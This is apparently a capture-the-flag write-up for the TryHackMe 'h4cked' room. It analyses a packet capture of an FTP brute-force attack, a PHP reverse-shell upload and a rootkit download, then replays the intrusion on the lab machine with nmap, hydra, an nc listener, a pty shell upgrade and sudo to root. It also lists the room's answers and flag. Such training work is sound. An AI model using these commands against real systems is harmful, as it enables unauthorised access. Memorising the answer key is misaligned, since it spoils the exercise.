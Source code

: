 # TryHackMe [h4cked](https://tryhackme.com/room/h4cked)
## Oh no! We've been hacked!
### The attacker is trying to log into a specific service. What service is this?
* Hint:
> Port 21
* Port 21 usually directs to an FTP server.

**Answer**: `FTP`
### There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
**Answer**: `hydra`
### The attacker is trying to log on with a specific username. What is the username?
* The username `jenny` is mentioned in multiple TCP queries:
![TCP queries with username of Jenny](jenny_ftp.jpg)

**Answer**: `jenny`
### What is the user's password?
* The password `password123` with username `jenny` resulted in a successful FTP connection:
![password of `password123`](password123.jpg)

**Answer**: `password123`
### What is the current FTP working directory after the attacker logged in?
1. Filter by FTP.
2. Look for the first mentioning of a current directory:
![current directory of `/var/www/html`](current_directory.jpg)

**Answer**: `/var/www/html`
### The attacker uploaded a backdoor. What is the backdoor's filename?
* A file called `shell.php` was uploaded, which was later given executable permissions:
![PHP code bing uploaded](shell_php.jpg)

**Answer**: `shell.php`
### The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
* Hint:
> Look at the FTP-DATA protocol
* The 2nd FTP-DATA query contains the entire PHP file:
![2nd FTP-DATA query contents](ftp_data.jpg)

**Answer**: `http://pentestmonkey.net/tools/php-reverse-shell`
### Which command did the attacker manually execute after getting a reverse shell?
1. Filter by the 20th TCP stream: `tcp.stream == 20`, which starts after the HTTP GET request for `shell.php`.
2. Follow the stream:
![TCP stream from reverse shell traffic](tcp_stream.jpg)
3. The first command is `whoami`.

**Answer**: `whoami`
### What is the computer's hostname?
* The hostname is visible after the command `python3 -c 'import pty; pty.spawn("/bin/bash")'` is executed, which is visible from the reverse shell's TCP stream..

**Answer**: `wir3`
### Which command did the attacker execute to spawn a new TTY shell?
* The attacker issued the command `python3 -c 'import pty; pty.spawn("/bin/bash")'`, which is visible from the reverse shell's TCP stream.

**Answer**: `python3 -c 'import pty; pty.spawn("/bin/bash")'`
### Which command was executed to gain a root shell?
**Answer**: `sudo su`
### The attacker downloaded something from GitHub. What is the name of the GitHub project?
* The attacker issued the command `https://github.com/f0rb1dd3n/Reptile.git`, which is visible from the reverse shell's TCP stream.

**Answer**: `Reptile`
### The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
* Hint:
> A certain type of kit

**Answer**: `rootkit`
## Hack your way back into the machine
### Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

```bash
$ nmap -sC -sV 10.10.246.123
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-29 16:32 AEST
Nmap scan report for 10.10.246.123
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
$ hydra -l jenny -P rockyou.txt ftp://10.10.246.123
[21][ftp] host: 10.10.246.123   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

```bash
$ ftp 10.10.246.123
Name (10.10.246.123:applegamer22): jenny
Password: 987654321
ftp> ls
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
ftp> get shell.php
ftp> put shell.php
```

```bash
$ nc -lvnp 1234
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo su
[sudo] password for jenny: 987654321
root@wir3:/# cat /root/Reptile/flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```